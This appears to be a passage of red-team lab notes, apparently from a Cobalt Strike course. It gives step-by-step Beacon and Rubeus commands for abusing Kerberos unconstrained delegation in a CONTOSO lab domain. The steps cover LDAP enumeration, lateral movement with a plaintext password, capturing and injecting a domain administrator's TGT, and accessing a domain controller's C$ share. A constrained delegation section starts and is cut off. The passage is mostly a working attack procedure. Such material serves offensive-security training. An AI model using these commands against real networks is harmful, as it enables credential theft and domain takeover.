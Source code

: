 
### Unconstrained Delegation
- Use LDAP to find computers configured for unconstrained delegation.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(userAccountControl:1.2.840.113556.1.4.803:=524288)) --attributes samaccountname`
    
-  Move laterally to _lon-ws-1_.
    
    2.  make_token CONTOSO\rsteel Passw0rd!
    3.  jump psexec64 lon-ws-1 smb

-  Run Rubeus in monitor mode on _lon-ws-1_.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe monitor /nowrap`
    
-  Wait 1-2 minutes for the TGT of a domain administrator to be captured.
    
-  Stop Rubeus.
    
    1. jobs
    2. jobkill 0

-  Inject the captured TGT into a sacrificial logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:CONTOSO.COM /username:dyork /password:FakePass /ticket:[TICKET]`
    
-  Impersonate the spawned process.
    
    1. steal_token [PID]
-  Verify the ticket is present.
    
    1. run klist
-  Use it to access _lon-dc-1_.
    
    1. ls \\lon-dc-1\c$
-  Drop the impersonation.
    
    1. rev2self
-  Terminate the spawned process.
    
    1. kill [PID]

### Constrained Delegation
- Search for computers whose msDS-AllowedToDelegateTo attribute is not null.
    
    BeaconTypeCopy
    
    `ldapsearch (&(samAccountType=805306369)(msDS-AllowedToDelegateTo=*)) --attributes samAccountName,msDS-AllowedToDelegateTo`
    
-  Get the UAC value for _lon-ws-1_ to see if the **TRUSTED_TO_AUTH_FOR_DELEGATION** flag is set.
    
    BeaconTypeCopy
    